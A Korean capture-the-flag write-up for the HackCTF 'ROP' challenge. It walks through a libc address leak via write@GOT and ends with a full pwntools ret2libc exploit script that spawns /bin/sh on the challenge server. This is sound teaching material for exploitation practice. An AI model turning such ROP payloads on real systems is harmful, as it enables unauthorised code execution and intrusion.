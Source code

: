 ```yaml
---
layout: post
title:  "HacCTF ROP write-up"
date:   2020-02-03 19:45:55
image:  hackctf_rop.PNG
tags:   [Hackctf]
categories: [Write-up]
---
```


# [HackCTF] ROP

Date: Feb 03, 2020
Tags: report

![]({{ site.baseurl }}/images/write-up/pwnable_xyz/J_U_M_P/1.png)

### 1.  문제

---

**1) mitigation 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled.png)

NX비트가 걸려있고 Partial RELRO가 걸려있다. GOT overwrite는 가능할 것으로 보인다

**2) 문제 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%201.png)

바이너리를 실행시키면 바로 입력을 받고, Hello, World!를 출력하고 종료된다.

**3) 코드 확인**

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%202.png)

메인은 별게 없다. vulnerable_Function 함수가 하나 존재하고, write로 표준 출력을 통해 문자열을 출력시켜준다.

![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%203.png)

vulnerable_function 함수를 보면 read함수가 끝이다. 해당 함수를 이용하여 ret를 덮을수 있을 것이다.

### 2. 접근방법

---

딱 보면 어떻게 할지 보인다.

1) ret를 덮어 libc 주소를 알아낸다

2) 알아낸 주소를 통해 libc base를 알아내고, 이를 이용하여 system 함수를 호출한다.

그럼 지금 필요한 것이 무엇인지 정리를 해보자.

- 아무 함수의 libc 주소

    ![]({{ site.baseurl }}/images/write-up/HackCTF/HackCTF%20ROP/Untitled%204.png)

현재 read, write, __gmon_start, __libc_start_main 이 4개가 끝이다. 따라서 write 함수로 write got를 인자로 넣어 write의 실 주소를 구해야 한다

- libc  base 주소

문제에서 libc.so.6 파일을 제공해줬으므로 이를 이용하여 write함수의 offset을 pwntools 기능을 통해 바로 구할수 있다. 따라서 위에서 구한 주소에서 offset을 빼서 base 주소를 구해야 한다

- /bin/sh 주소

read를 호출하게 하여 .bss 영역에 직접 입력을 하는 방법, 혹은 offset을 통해 libc에 저장된 /bin/sh 주소를 구하는 방식, 등을 이용하여 해당 문자열의 주소를 구해야 한다

- system 함수 주소

위에서 base 주소를 구했으므로, offset을 이용해야 구해야 한다.

추가적으로 디버깅을 할때 현 내 로컬 시스템의 llibc가 아닌, 주어진 libc를 링킹해서 디버깅을 진행하면 간편하다. 방법은 아래의 코드를 익스코드 위에 추가하면 된다.

    ...
    env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    p = process("./rop", env=env, aslr=False)
    ...

### 3. 풀이

---

최종 익스코드는 다음과 같다

    from pwn import *
    context.log_level='DEBUG'
    p=remote("ctf.j0n9hyun.xyz",3021)
    #env = {"LD_PRELOAD": os.path.join(os.getcwd(), "./libc.so.6")}
    #p = process("./rop", env=env, aslr=False)
    e=ELF("./rop")
    libc=ELF("./libc.so.6")
    #gdb.attach(p,""" b* 0x0804847E  """)
    
    write_plt=e.plt["write"]
    write_got=e.got["write"]
    read_plt=e.plt['read']
    
    #log.info("libc_start_main offset::"+hex(e.symbols['__libc_start_main']))
    log.info("write_plt::"+hex(write_plt))
    log.info("write_got::"+hex(write_got))
    #log.info("libc_base::"+hex(libc_base))
    
    payload="A"*0x88+"B"*4
    payload+=p32(write_plt)
    payload+=p32(0x08048509)
    payload+=p32(0x1)
    payload+=p32(write_got)
    payload+=p32(0x8)
    payload+=p32(0x0804844b)
    p.sendline(payload)
    #log.info(p.recv)
    #pause()
    write_addr=p.recv(4)
    #log.info(hex(write_addr))
    #pause()
    libc_base=u32(write_addr)-libc.symbols['write']
    
    payload2="A"*0x8c
    payload2+=p32(read_plt)
    payload2+=p32(0x08048509)
    payload2+=p32(0x0)
    payload2+=p32(0x0804a024)
    payload2+=p32(0x8)
    payload2+=p32(libc_base+libc.symbols['system'])
    payload2+="AAAA"
    payload2+=p32(0x0804a024)
    
    p.sendline(payload2)
    p.sendline("/bin/sh\x00")
    p.interactive()

### 4. 몰랐던 개념

---

처음에 read와 write는 syscall인데 libc 주소를 어케 구하지 라고 고민을 많이 했었다.

하지만 일반적으로 우리가 코딩할때 사용하는 read, write는 syscall이 아닌 libc에서 syscall read, write를 이용하여 wrapping한 read, write 였다.

따라서 이를 이용하여 똑같은 방식으로 libc leak을 진행하면 됬었다. 추후에 read, write 코드를 한번 봐야겠다.